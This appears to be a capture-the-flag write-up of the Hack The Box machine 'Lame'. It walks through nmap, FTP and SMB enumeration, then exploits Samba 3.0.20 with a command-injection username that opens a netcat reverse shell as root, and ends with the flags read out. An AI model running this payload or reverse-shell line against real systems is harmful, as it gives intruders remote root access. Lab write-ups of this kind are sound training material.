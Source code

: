 ```yaml
---
layout: post
title: Lame
subtitle: Lame HackTheBox
cover-img: assets/img/HTB_bg.jpg
thumbnail-img: assets/img/Lame.png
categories: HackTheBox
tags: [Offensive, Pentesting,HackTheBox, Linux]

---
```


Lame is an easy Linux machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement. 




## Reconnaissance
Let's start with an Nmap scan to identify open ports 

Nmap scan shows the following output with 5 open ports: 
`nmap -sC -sV -T5 10.10.10.3 -oA nmap_initial`


```
kali㉿kali)-[~/HTB/Lame]
└─$ nmap -sC -sV -T5 -Pn -p- 10.10.10.3 -oA initscan_lame 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 23:51 EDT
Nmap scan report for 10.10.10.3
Host is up (0.058s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-08-23T23:53:53-04:00
|_clock-skew: mean: 2h00m22s, deviation: 2h49m45s, median: 19s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 178.68 seconds

```



## Enumeration

### FTP Anonymous Login

I attempted to log in anonymously to the FTP service, but all the directories were empty. 
```
kali㉿kali)-[~/HTB/Lame]
└─$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||63947|).
150 Here comes the directory listing.
226 Directory send OK.
ftp> cd ..
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||37980|).
150 Here comes the directory listing.
226 Directory send OK.
ftp> status
Connected and logged into 10.10.10.3.
No proxy connection.
Gate ftp: off, server (none), port ftpgate.
Passive mode: on; fallback to active mode: on.
Mode: stream; Type: binary; Form: non-print; Structure: file.
Verbose: on; Bell: off; Prompting: on; Globbing: on.
Store unique: off; Receive unique: off.
Preserve modification times: on.
Case: off; CR stripping: on.
Ntrans: off.
Nmap: off.
Hash mark printing: off; Mark count: 1024; Progress bar: on.
Get transfer rate throttle: off; maximum: 0; increment 1024.
Put transfer rate throttle: off; maximum: 0; increment 1024.
Socket buffer sizes: send 16384, receive 131072.
Use of PORT cmds: on.
Use of EPSV/EPRT cmds for IPv4: on.
Use of EPSV/EPRT cmds for IPv6: on.
Command line editing: on.
Version: tnftp 20230507
```


Attempts to run a Metasploit exploit were unsuccessful. 

### SMB

Next, let's enumerate the SMB services without using Metasploit.
`smbmap -H 10.10.10.3` shows the following available shares where `tmp` got both read and write access. 
```
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```


Let's anonymous logon to it with the help of smbclient. 

`smbclient //10.10.10.3/tmp`

Since this version of samba is vulnerable to RCE, we will set up a listener to receive a reverse shell. . 

```
kali㉿kali)-[~/HTB/Lame]
└─$ nc -lvp 1337                                    
listening on [any] 1337 ...


```

Lets use the logon command on the smbclient which establishes a new vuid for this session by logging on again.

```
session setup failed: NT_STATUS_LOGON_FAILURE
smb: \> logon "/=`nc 10.10.16.7 1337 -e /bin/sh`"
Password: 
session setup failed: NT_STATUS_IO_TIMEOUT
smb: \> 
```
Going back to the netcat listener, we can see the following output. 

```
 nc -vlp 1337
listening on [any] 1337 ...
10.10.10.3: inverse host lookup failed: Unknown host
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.3] 50988
whoami
root


```

After gaining access, we can upgrade our shell and look for user and root level access.

```
python -c 'import pty; pty.spawn("bash")'
root@lame:/# ls
ls
bin    etc         initrd.img.old  mnt        root  tmp      vmlinuz.old
boot   home        lib             nohup.out  sbin  usr
cdrom  initrd      lost+found      opt        srv   var
dev    initrd.img  media           proc       sys   vmlinuz
root@lame:/# cd home
cd home
root@lame:/home# ls
ls
ftp  makis  service  user
root@lame:/home# cd makis
cd makis
root@lame:/home/makis# ls
ls
user.txt
root@lame:/home/makis# cat user.txt
cat user.txt
de.........................
root@lame:/home/makis# cd ..
cd ..
root@lame:/home# ls
ls
ftp  makis  service  user
root@lame:/home# cd ..
cd ..
root@lame:/# ls
ls
bin    etc         initrd.img.old  mnt        root  tmp      vmlinuz.old
boot   home        lib             nohup.out  sbin  usr
cdrom  initrd      lost+found      opt        srv   var
dev    initrd.img  media           proc       sys   vmlinuz
root@lame:/# cd root
cd root
root@lame:/root# ls
ls
Desktop  reset_logs.sh  root.txt  vnc.log
root@lame:/root# cat root.txt
cat root.txt
d438....................
root@lame:/root#  id
id
uid=0(root) gid=0(root)

```
As an alternative, using metasploit by searching the exploitable version and setting up the required options also gets us root access to the system.


